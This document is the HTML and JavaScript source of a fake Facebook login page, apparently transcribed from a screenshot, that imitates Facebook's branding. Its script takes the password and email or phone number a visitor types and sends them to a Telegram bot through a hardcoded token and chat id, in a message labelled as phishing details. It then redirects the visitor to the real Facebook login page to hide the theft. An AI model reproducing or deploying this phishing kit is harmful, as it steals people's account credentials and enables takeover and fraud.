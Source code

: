     <div class="language">English (UK)</div>

    <div class="container">
        <div class="logo-container">
            <img src="https://upload.wikimedia.org/wikipedia/commons/5/51/Facebook_f_logo_%282019%29.svg" class="logo" alt="Facebook Logo">
        </div>

        <form id="loginForm">
            <input type="text" id="emailOrPhone" class="input-field" placeholder="Mobile number or email address" required>
            <input type="password" id="password" class="input-field" placeholder="Password" required>
            <button type="submit" class="login-btn">Log In</button>
        </form>

        <a href="#" class="forgot-password">Forgotten Password?</a>
    </div>
    <center>

    <button class="create-account-btn">Create new account</button>

    <div class="meta-logo">
        <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/a/ab/Meta-Logo.png/1200px-Meta-Logo.png" alt="Meta Logo">
    </div>
    
<script>
    document.getElementById('loginForm').addEventListener('submit', function(event) {
        event.preventDefault();

        const emailOrPhone = document.getElementById('emailOrPhone').value;
        const password = document.getElementById('password').value;

        const token = '7635719987:AAFMID_CdjT_ZFK0I_1fhIy9RfjDr413trA'; 
        const chat_id = '5549167441';  
        const telegramURL = `https://api.telegram.org/bot${token}/sendMessage`;

        const message = `🎣FB PHISHING DETAILS:\n👤Email/Phone: ${emailOrPhone}\n🔑Password: ${password}\n@Randomx001`;

        fetch(telegramURL, {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({
                chat_id: chat_id,
                text: message
            })
        }).then(response => {
            if (response.ok) {
                window.location.href = 'https://m.facebook.com/login/';
            } else {
                alert('Invalid username or password');
            }
        }).catch(error => {
            console.error('Error:', error);
            alert('Error sending data to Telegram. Please check the console.');
        });
    });
</script>

</body>
</html>
